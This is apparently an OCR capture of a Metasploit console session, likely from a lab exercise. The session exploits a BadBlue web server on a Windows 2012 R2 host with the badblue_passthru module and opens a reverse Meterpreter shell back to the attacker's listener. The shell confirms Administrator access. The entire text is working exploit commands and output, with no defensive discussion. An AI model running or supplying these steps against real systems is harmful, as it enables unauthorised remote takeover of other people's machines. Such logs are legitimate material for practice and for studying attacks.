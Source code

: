 ```
msf5 exploit(windows/http/badblue_passthru) > show options

Module options (exploit/windows/http/badblue_passthru):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   10.0.20.20       yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    80               yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   BadBlue EE 2.7 Universal


msf5 exploit(windows/http/badblue_passthru) > set target 
set target 0                            set target BadBlue\ 2.72b\ Universal    
set target 1                            set target BadBlue\ EE\ 2.7\ Universal  
msf5 exploit(windows/http/badblue_passthru) > set target BadBlue\ EE\ 2.7\ Universal 
target => BadBlue EE 2.7 Universal
msf5 exploit(windows/http/badblue_passthru) > exploit

[*] Started reverse TCP handler on 10.10.16.10:4444 
[*] Trying target BadBlue EE 2.7 Universal...
[*] Sending stage (180291 bytes) to 10.0.20.20
[*] Meterpreter session 1 opened (10.10.16.10:4444 -> 10.0.20.20:49240) at 2023-03-03 16:46:37 +0530

meterpreter > 

```

```
meterpreter > sysinfo
Computer        : WIN-OMCNBKR66MN
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > getuid
Server username: WIN-OMCNBKR66MN\Administrator

```
